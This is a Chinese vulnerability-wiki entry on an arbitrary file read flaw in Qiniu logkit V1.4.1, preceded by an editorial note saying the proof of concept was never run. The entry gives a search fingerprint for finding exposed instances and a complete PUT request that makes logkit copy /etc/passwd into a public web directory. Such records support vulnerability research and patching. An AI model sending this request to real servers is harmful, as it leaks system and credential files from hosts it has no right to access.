




# 七牛云 logkit log_path 任意文件读取漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界


### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 完整请求源码同前文，仅资源路径与来源不同
- 产品目录应logkit而非log_path标题片段
- 保留双来源，权限和任务副作用见另一记录

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

七牛云 logkit log_path 参数可自定义读取服务器文件，配合读取的文件写入Web目录将会使攻击者读取到服务器任意文件，造成服务器敏感信息泄漏

## 漏洞影响

```
七牛云 logkit V1.4.1
```

## 网络测绘

```
title="七牛Logkit配置文件助手"
```

## 漏洞复现

主页面



发送请求包配置读取文件

```http
PUT /logkit/configs/passwdread HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 356
Content-Type: application/json
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

{
  "name": "passwdread",
  "batch_interval": 1,
  "collect_interval": 1,
  "reader": {
    "mode": "file",
    "log_path": "/etc/passwd",
    "read_from": "oldest",
    "datasource_tag": "datasource",
    "encoding": "UTF-8"
  },
  "parser": {
    "type": "raw",
    "name": "parser",
    "timestamp": "true"
  },
  "transforms": [],
  "senders": [
    {
      "sender_type": "file",
      "file_send_path": "/app/public/passwd.log"
    }
  ]
}
```





请求读取的文件 /app/public 目录为Docker默认Web路径，写入可读取目标文件



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
